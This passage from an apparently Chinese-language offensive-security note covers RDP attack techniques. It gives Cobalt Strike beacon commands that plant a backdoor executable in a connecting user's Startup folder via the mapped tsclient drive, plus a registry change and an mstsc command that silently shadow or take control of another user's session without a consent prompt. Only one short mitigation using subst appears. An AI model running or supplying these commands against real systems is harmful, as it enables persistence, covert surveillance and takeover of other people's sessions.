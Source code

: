 还可以向磁盘（用户开机启动项）中写入恶意文件，当机器重启时就会执行恶意文件：

```console
# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```

> 可用工具：https://github.com/mdsecactivebreach/RDPInception/

预防（风险控制）的方法：虽然 mstsc 在配置挂载磁盘时无法直接选择文件夹，但可以利用 [subst](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/subst) 命令将指定的文件夹挂载成磁盘驱动器，实现将远程主机的读写范围限缩在指定文件夹。

```console
PS C:\Windows\System32> # 创建虚拟驱动器
PS C:\Windows\System32> subst T: C:\Temp\RdpTransfer
PS C:\Windows\System32> wmic logicaldisk get deviceid,volumename
DeviceID  VolumeName
C:        Windows-SSD
T:        Windows-SSD

PS C:\Windows\System32> # 删除替换的（虚拟）驱动器
PS C:\Windows\System32> subst /d T:
```

## Shadow Mode

该模式类似于 “向日葵”、“Teamviewer”、“ToDesk” 这类远程控制软件的效果。（不会将正在进行远程桌面连接的用户挤下线）

---

需要修改目标机器 GPO（Group Policy Objects，组策略对象）配置 RD Shadow 连接选项：

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 2 /f
```

> 注：当 Shadow 值为 2 时，表示未经用户许可完全控制；为 4 时，表示未经用户许可查看会话。此处的 “未经用户许可” 是指不会在远程主机上弹框并等待用户点击确认，不是指在连接远程主机时不需要提供用户凭据。

使用影子模式连接远程主机，并使用 `/noConsentPrompt` 参数，远程主机上不会弹出提示框：

```
mstsc.exe /shadow:1 /v:192.168.70.128 /prompt /control /noConsentPrompt
```

不添加 `/control` 参数，只查看别人在远程主机上的操作，而不能对其进行操作；

不添加 `/prompt` 参数，表示使用当前的用户凭据去连接远程主机。

## References

- 死磕 RDP 协议，从截图和爆破说起  
  [https://nosec.org/home/detail/5084.html](https://nosec.org/home/detail/5084.html)
- Passing the Hash with Remote Desktop  
  [https://www.kali.org/blog/passing-hash-remote-desktop/](https://www.kali.org/blog/passing-hash-remote-desktop/)
- 渗透技巧——Pass the Hash with Remote Desktop Protocol  
  [https://3gstudent.github.io/backup-3gstudent.github.io/渗透技巧-Pass-the-Hash-with-Remote-Desktop-Protocol/](https://3gstudent.github.io/backup-3gstudent.github.io/渗透技巧-Pass-the-Hash-with-Remote-Desktop-Protocol/)
- Remote Desktop Services: Enable Restricted Admin mode  
  [https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx](https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx)
- Viewing a Remote User’s Desktop Session with Shadow Mode in Windows  
  [https://woshub.com/rdp-session-shadow-to-windows-10-user/](https://woshub.com/rdp-session-shadow-to-windows-10-user/)